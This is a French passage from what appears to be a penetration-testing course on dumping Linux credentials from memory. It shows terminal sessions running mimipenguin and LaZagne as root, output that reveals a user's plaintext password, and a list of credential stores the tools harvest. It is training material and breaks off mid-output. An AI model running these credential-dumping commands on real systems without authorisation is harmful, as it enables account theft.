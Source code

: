 ## Mémoire et cache
De nombreuses applications et processus fonctionnent avec les informations d'identification nécessaires à l'authentification et les stockent en mémoire ou dans des fichiers afin qu'ils puissent être réutilisés. Par exemple, il peut s'agir des informations d'identification requises par le système pour les utilisateurs connectés. Un autre exemple est les informations d'identification stockées dans les navigateurs, qui peuvent également être lues. Afin de récupérer ce type d'informations à partir des distributions Linux, il existe un outil appelé mimipenguin qui facilite l'ensemble du processus. Cependant, cet outil nécessite des autorisations d'administrateur/racine.

### Mémoire - Mimipingouin
```
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

Un outil encore plus puissant que nous pouvons utiliser et qui a été mentionné plus tôt dans la section Credential Hunting in Windows est LaZagne. Cet outil nous permet d'accéder à beaucoup plus de ressources et d'extraire les informations d'identification. Les mots de passe et les hachages que nous pouvons obtenir proviennent des sources suivantes, mais ne sont pas limités à :
|  |  |  |
| --- | --- | --- |
| Wifi | Wpa_supplicant | Libsecret | Kwallet |
| Chromium-based | CLI | Mozilla | Thunderbird |
| Git | Env_variable | Grub | Fstab |
| AWS | Filezilla | Gftp | SSH |
| Apache | Shadow | Docker | KeePass |
| Mimipy | Sessions | Keyrings |  |

Par exemple, les porte-clés sont utilisés pour le stockage sécurisé et la gestion des mots de passe sur les distributions Linux. Les mots de passe sont stockés cryptés et protégés par un mot de passe principal. Il s'agit d'un gestionnaire de mots de passe basé sur le système d'exploitation, dont nous parlerons plus tard dans une autre section. De cette façon, nous n'avons pas besoin de nous souvenir de chaque mot de passe et pouvons enregistrer des entrées de mot de passe répétées.

## Memory - LaZagne
```
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
```